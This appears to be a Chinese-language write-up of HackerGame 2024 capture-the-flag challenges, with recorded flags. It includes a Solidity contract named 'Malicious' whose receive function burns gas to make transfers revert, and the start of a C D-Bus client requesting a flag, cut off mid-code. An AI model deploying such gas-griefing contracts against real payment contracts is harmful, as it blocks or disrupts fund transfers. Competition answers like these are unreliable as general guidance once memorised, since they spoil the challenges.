 # 链上转账助手

1

![image.png](./HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 30.png)

flag{Tr4nsf3r_T0_c0nTracT_MaY_R3v3rt_feafb80208}

2

```Plain Text
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Malicious {
    receive() external payable {
        // 消耗尽可能多的 gas
        for (uint256 i = 0; i < 1000000; i++) {
            // 执行无操作循环，消耗 gas
            // 你也可以在这里加入更多的计算以消耗更多的 gas
            uint256 temp = i * i;
        }
    }
}

```

![image.png](./HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 31.png)

flag{Ple4se_L1m1t_y0uR_GAS_HaHa_9a6996f0ab}

3

```Plain Text

```

# 不太软的分布总线

本题全是o1帮我生成的（）

```Plain Text
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag1"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    // 连接到系统总线
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("无法连接到系统总线: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    // 创建参数，传递字符串 "Please give me flag1"
    GVariant *params = g_variant_new("(s)", "Please give me flag1");
```
